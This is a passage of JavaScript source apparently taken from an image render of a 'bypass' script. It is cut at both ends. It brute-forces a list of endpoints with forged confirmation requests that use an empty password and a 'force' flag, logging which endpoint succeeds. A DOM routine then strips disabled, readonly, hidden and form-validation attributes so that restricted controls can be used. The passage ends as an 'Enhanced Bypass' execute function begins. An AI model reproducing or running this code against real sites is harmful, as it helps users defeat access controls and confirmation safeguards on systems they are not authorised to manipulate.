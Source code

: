 ```javascript
                        body: JSON.stringify({
                            confirm: true,
                            password: '', // Empty password
                            reason: 'bypass',
                            force: true
                        })
                    });
                    
                    console.log(`${endpoint}: ${response.status}`);
                    
                    if (response.ok) {
                        console.log('✅ Success on:', endpoint);
                        return true;
                    }
                } catch (e) {
                    console.log(`Failed: ${endpoint}`);
                }
            }
            
            return false;
        },
        
        // 9. DOM Manipulation Advanced
        advancedDOMBypass: function() {
            console.log('🔧 Advanced DOM manipulation...');
            
            // Remove all disabled attributes
            document.querySelectorAll('[disabled]').forEach(elem => {
                elem.removeAttribute('disabled');
                elem.disabled = false;
            });
            
            // Remove readonly
            document.querySelectorAll('[readonly]').forEach(elem => {
                elem.removeAttribute('readonly');
                elem.readOnly = false;
            });
            
            // Make all hidden elements visible
            document.querySelectorAll('[hidden], [style*="display: none"], [style*="visibility: hidden"]').forEach(elem => {
                elem.removeAttribute('hidden');
                elem.style.display = 'block';
                elem.style.visibility = 'visible';
            });
            
            // Remove all validation attributes
            document.querySelectorAll('[required], [pattern], [min], [max], [minlength], [maxlength]').forEach(elem => {
                elem.removeAttribute('required');
                elem.removeAttribute('pattern');
                elem.removeAttribute('min');
                elem.removeAttribute('max');
                elem.removeAttribute('minlength');
                elem.removeAttribute('maxlength');
            });
        },
        
        // 10. Main Execution
        execute: async function() {
            console.log('🚀 Starting Enhanced Bypass...');
            
            // Setup
```